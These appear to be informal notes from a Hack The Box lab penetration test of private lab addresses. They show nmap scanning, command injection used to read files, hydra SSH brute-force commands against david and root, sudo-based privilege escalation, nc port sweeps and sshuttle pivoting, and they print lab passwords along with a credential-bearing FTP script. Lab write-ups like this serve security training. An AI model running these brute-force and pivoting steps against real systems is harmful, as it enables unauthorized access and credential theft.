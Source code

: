 

```
nmap -oA nmap/initial 10.0.0.0/24
-oA all output saved to initial 
/24 ip range scan
```

two hose revealed host are found on 10.0.0.1, and 10.0.0.2/24

![cmd-injection](C:\Users\charl\OneDrive\Pictures\hackthebox\rendition\cmd-injection.PNG)



![recon-fileupload](C:\Users\charl\OneDrive\Pictures\hackthebox\rendition\recon-fileupload.PNG)

command injection reading the files system. shrug

2 is linux system. 

linux you the cm injection to read files on the system until i can think of a way to get a shell. found some credentials in davids directory

![directories](C:\Users\charl\OneDrive\Pictures\hackthebox\rendition\directories.PNG)

```
hydra -l david -P /home/htb/wordlist/rockyou.txt 10.0.0.2 ssh
```

```
hydra -l root -P /home/htb/wordlist/rockyou.txt 10.0.0.2 ssh
```

output

ran linenum.sh noticed something odd. then i ran sudo -l david can sudo anything without the root password. Just need to authiticate with his. 

So the system is pretty bare for living off the land type stuff i can move over a nmap binary. All i need is nc to enumerate possible host. i have heard nmap scans are look

```
Connection to 10.100.10.25 22 port [tcp/*] succeeded!  
Connection to 10.100.10.80 22 port [tcp/*] succeeded!
Connection to 10.100.10.139 22 port [tcp/*] succeeded!

```

```
Connection to 10.100.10.25 80 port [tcp/*] succeeded!
ection to 10.100.10.25 80 port [tcp/*] succeeded!

```

sshuttle found ssh open on 10.100.10.139

```
sshuttle -r david@10.0.02 10.100.10.0/24
```

ftp

creds certs

![anonymous@10.139](anonymous@10.139.PNG)

![ftp-timestamps](ftp-timestamps.PNG)

logged in using the flag . used 

```
ssh root@10.100.10.139 		password = AllMyBas3srBELONGt0m3
```

Found some kind of ftp_check.sh script amde by sthompson

```
[root@rhel-2394-11922 Desktop]# cat ftp_check.sh
#!/bin/sh
HOST='10.100.10.139'
USER='sthompson'
PASSWD='hackersW4ntT0Bm3'
x=1
while [ $x -lt 2 ]; do
ftp -n $HOST <<END_SCRIPT
quote USER $USER
quote PASS $PASSWD
ls
quit
END_SCRIPT
sleep 30;
done
exit 0

```

![webpage-dog](webpage-dog.PNG)